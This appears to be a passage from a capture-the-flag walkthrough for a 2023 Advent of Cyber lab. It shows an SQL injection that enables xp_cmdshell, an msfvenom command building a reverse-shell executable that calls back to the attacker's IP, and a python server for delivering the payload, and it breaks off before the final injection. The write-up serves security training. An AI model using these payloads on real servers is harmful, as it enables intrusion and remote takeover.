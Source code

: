    Scrolling all the way to the bottom gives us the answer we are looking for.

   ><details><summary>Click for answer</summary></details>

4. What flag is in the note file Gr33dstr left behind on the system?

   To get access to the underlying file system, we need to perform several steps.

   First we must enable `xp_cmdshell` as this will enable us to execute commands on the filesystem. We can do this by injection this command using SQL injection:
   
   ```cmd
   EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
   ```

   ![Enable Xpcmd](Pictures/Advent_Of_Cyber_2023_D10_Enable_Xpcmd.png)

   The next thing to do is prepare our reverse shell using msfvenom.

   ```cmd
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.18.78.136 LPORT=1337 -f exe -o gift.exe
   ```

   ![Shell](Pictures/Advent_Of_Cyber_2023_D10_Shell.png)
   
   Using `xp_cmdshell` and `certutil` we can transfer this file to the server using the SQL injection we just found.

   First, setup a python server in the same folder as our shell using `python3 -m http.server 8080`.

   Then use this injection in the gift search url.
   
   ```cmd
